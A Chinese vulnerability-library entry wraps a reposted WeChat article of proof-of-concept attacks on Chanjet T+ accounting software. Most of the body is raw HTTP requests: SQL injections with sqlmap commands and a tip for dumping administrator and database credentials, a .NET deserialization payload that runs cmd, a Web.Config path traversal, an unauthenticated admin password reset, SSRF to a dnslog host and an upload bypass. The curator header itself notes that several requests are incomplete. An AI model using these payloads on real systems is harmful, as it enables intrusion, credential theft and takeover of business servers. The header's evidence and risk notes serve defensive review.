# 畅捷通T+ 多漏洞集合

## 条目说明

- 对象与具体问题：畅捷通T+；多漏洞集合
- 版本、配置及部署条件：各漏洞版本未完整；UserFileUpload v17<=歧义
- 认证与权限前提：混合匿名/会话/重置
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- QVD-2023-13612误放cnvd且只对应CheckMutex段，不能覆盖全集
- CheckMutex Content-Length253无正文；CheckPassword和其他请求缺头体空行，上传全部name/filename丢失
- 重置管理员密码、上传、执行、读取分别标副作用与鉴权，不当无害验证
- 与211重叠四类、212读取、214相关反序列化不同入口；逐实体关联而非整体一漏洞
- 广告推荐与版权尾部过多，无具体修复或版本矩阵

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行；命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/r7iHYvY2wZZnrSsaoMV6nA)

**一、 前台 SQL 注入漏洞复现（QVD-2023-13612）**

chanjet-tplus-checkmutex-sqli

POC1：

```http
POST /tplus/ajaxpro/Ufida.T.SM.UIP.MultiCompanyController,Ufida.T.SM.UIP.ashx?method=CheckMutex HTTP/1.1
Host: XXXXXX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=z4uf2zxaxzzew254iwju3fvn
Content-Length: 253

```

> 请求长度说明：原资料 Content-Length 为 253；保留原始标头；其数值未据实际请求体重新计算或验证。



```
python sqlmap.py -r url.txt --level 3 --risk 3 --dbs

```



chanjet-tplus-ufida-sqli

POC2:

```http
POST /tplus/ajaxpro/Ufida.T.SM.Login.UIP.LoginManager,Ufida.T.SM.Login.UIP.ashx?method=CheckPassword HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 346
Content-Type: application/json
Host: 127.0.0.1
Origin: http://127.0.0.1
Pragma: no-cache
Referer: http://127.0.0.1/tplus/ajaxpro/Ufida.T.SM.Login.UIP.LoginManager,Ufida.T.SM.Login.UIP.ashx?method=CheckPassword
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
{
  "AccountNum":"*",
  "UserName":"admin",
  "Password":"e10adc3949ba59abbe56e057f20f883e",
  "rdpYear":"2022",
  "rdpMonth":"2",
  "rdpDate":"21",
  "webServiceProcessID":"admin",
  "ali_csessionid":"",
  "ali_sig":"",
  "ali_token":"",
  "ali_scene":"",
  "role":"",
  "aqdKey":"",
  "formWhere":"browser",
  "cardNo":""
}

```

PS：先执行个 --sql-shell 然后直接用语句查询 , 即可出来管理员账密 + 数据库账密。

```
select * from eap_configpath

```

**二、畅捷通 T+ .net 反序列化 RCE**

chanjet-tplus-rce

POC：  

```http
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: xxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=v0rnaavxoe41hsijum0uc4bl
Upgrade-Insecure-Requests: 1
Content-Length: 594
{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c ipconfig > test.txt"
        }
    }
  }
}

```



访问 http://xxx/tplus/test.txt



**三、文件读取漏洞**

chanjet-tplus-file-read

POC：  

```
http://xxxxxx/tplus/SM/DTS/DownloadProxy.aspx?preload=1&Path=../../Web.Config

```



**四、用友畅捷通 T+ RecoverPassword.aspx 管理员密码修改漏洞**

chanjet-tplus-unauth-update

重置账号密码为 admin/123qwe

POC：

```http
POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 45
{"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}

```





**五、前台信息泄露漏洞**

POC：

```
/tplus/ajaxpro/Ufida.T.SM.UIP.Tool.AccountClearControler,Ufida.T.SM.UIP.ashx?method=GetDefaultBackPath

```



**六、前台 SSRF 漏洞**

POC:

```http
POST /tplus/ajaxpro/Ufida.T.SM.UIP.UA.AddressSettingController,Ufida.T.SM.UIP.ashx?method=TestConnnect HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 36
Content-Type: application/json
Host: xxxx
Origin: xxxx
Pragma: no-cache
Referer:http://xxxxx/tplus/ajaxpro/Ufida.T.SM.UIP.UA.AddressSettingController,Ufida.T.SM.UIP.ashx?method=TestConnnect
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
{
  "address":"su8hjb.dnslog.cn"
}

```





**七、文件上传**

/tplus/CommonPage/UserFileUpload.aspx 文件中含有 UploadUserFile 函数 导致了鉴权任意文件上传（v17<= 版本可 ?preload=1 绕过）  

POC:

```
http://xxxxx/tplus/CommonPage/UserFileUpload.aspx?preload=1

```



```http
POST /tplus/CommonPage/UserFileUpload.aspx?preload=1 HTTP/1.1
Host: xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------31120366651622657084172305612
Content-Length: 873
Origin: xxxx
Connection: close
Referer: http://xxxxx/tplus/CommonPage/UserFileUpload.aspx?preload=1
Cookie: ASP.NET_SessionId=305wnhz0nngmnh5jxb2mxt0t; Hm_lvt_fd4ca40261bc424e2d120b806d985a14=1710497388; Hm_lpvt_fd4ca40261bc424e2d120b806d985a14=1710497548
Upgrade-Insecure-Requests: 1
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; 
btUpLoad
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; 
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; 
/wEPDwULLTExMjk2Njk2NjUPFgIeE1ZhbGlkYXRlUmVxdWVzdE1vZGUCARYCAgMPFgIeB2VuY3R5cGUFE211bHRpcGFydC9mb3JtLWRhdGFkZMMPG+xpQF9Tz9ZkXNLkJDcxtSCr0/KejOFiC5BndJai
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; 
ACD4EABA
-----------------------------31120366651622657084172305612
Content-Disposition: form-data; 
Content-Type: text/plain
333
-----------------------------31120366651622657084172305612--

```

访问 url 验证

```
http://xxx/tplus/UserFiles/1.txt

```




小知识  

**依据《刑法》第 285 条第 3 款的规定，犯提供非法侵入或者控制计算机信息系统罪的，处 3 年以下有期徒刑或者****拘役****，并处或者单处****罚金****; 情节特别严重的，处 3 年以上 7 年以下有期徒刑，并处罚金。**

  


声明

**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**


欢迎 **在看**丨**留言**丨**分享至朋友圈** 三连

 **好文**推荐****  

*   [免登录读取别人的 WX 聊天记录](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247487346&idx=1&sn=9810af860afd8f94e1cf2ccf81a7e13f&chksm=c20a2c55f57da543fe1bdc21e670d036cb10efccf4d102a4bf9cb7c3956786858230c8172b54&scene=21#wechat_redirect)  
    
*   [实战 | 监控里的秘密](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484122&idx=1&sn=88801391b60d3b77df97026e9e495ec2&chksm=c20a21fdf57da8eb9641bff94074f2aa736d12e3a48098d33e66aca17ded9267e6686ddb9452&scene=21#wechat_redirect)
    
*   [木马工具 | 控制别人的电脑，非常简单！](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484445&idx=1&sn=bb60b1a6a69c8c2d31a6e8d5fb09a638&chksm=c20a273af57dae2c544388af5d942e9100225f400d055274123dcd13784c21ec598b4f2e7591&scene=21#wechat_redirect)
    
*   [BlueLotus 联动 DVWA，实现 xss 窃取 cookie](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247486084&idx=1&sn=62d3d7448aa06365d15157326e59b8e7&chksm=c20a29a3f57da0b56f4e5323d7c6b05e91b597df2697934e7903c27a730e2f4443983216f289&scene=21#wechat_redirect)  
    
*   [实战 | 逻辑漏洞绕过](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247509911&idx=1&sn=c37f416483c1ab4bc7b8ee13a379280a&chksm=9acd7708adbafe1ef9f9f030e9de25446eacec18bd15df2f76ba21a4031c7f827563c03bb907&scene=21#wechat_redirect)  
    
*   [路边的 u 盘你不要捡，山下的女人是老虎~](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485822&idx=1&sn=a5e05071dccc53fecc4b69d513489444&chksm=c20a2a59f57da34f00a26cab87251fffb1ca7ca51c658fea0d5e7f08788c1d59d86f95fc137a&scene=21#wechat_redirect)  
    
*   [永恒之蓝彩虹猫联动](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485315&idx=1&sn=c64f1d550507b15b7655a6ec18e857de&chksm=c20a24a4f57dadb219c1ef76e18fad92932596782d9d7c10f264cb23245af31d5624666de16f&scene=21#wechat_redirect)
    
*   [5min 学渗透 | wifi 断网攻击、暴力攻击](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485194&idx=1&sn=c425ac374dde652c5ac820b8b7aa5fdd&chksm=c20a242df57dad3b2fe01e302955f3ad3f25cde0ab8e08bb21a431c24f3acad965472efcdbed&scene=21#wechat_redirect)
    
*   [5min 学渗透 | 你的手机是如何被监控的?](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485149&idx=1&sn=242ab51f1c6797cdff86af09a6ef6a1d&chksm=c20a25faf57dacec21276c8509c453a4c8446fdf44494ec2663ca61aab494ca7edc1eedc8694&scene=21#wechat_redirect)  
    
*   [5min 学渗透 | 简单制作钓鱼 wifi 01](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485124&idx=1&sn=21899d53b348d7daa9e73b464fb9d423&chksm=c20a25e3f57dacf54e101b31ae6b292f822fc012795b604df0f15231072e80d887e8d98090bf&scene=21#wechat_redirect)
    
*   [实用小工具 | 破解 office 三件套加密密码](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485123&idx=1&sn=21bc7ca9cc48d0270667709dc448410f&chksm=c20a25e4f57dacf27d5fb2d90f1ac6c04ac36ca5549023c4d83c85ff5464632563bad975cd50&scene=21#wechat_redirect)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
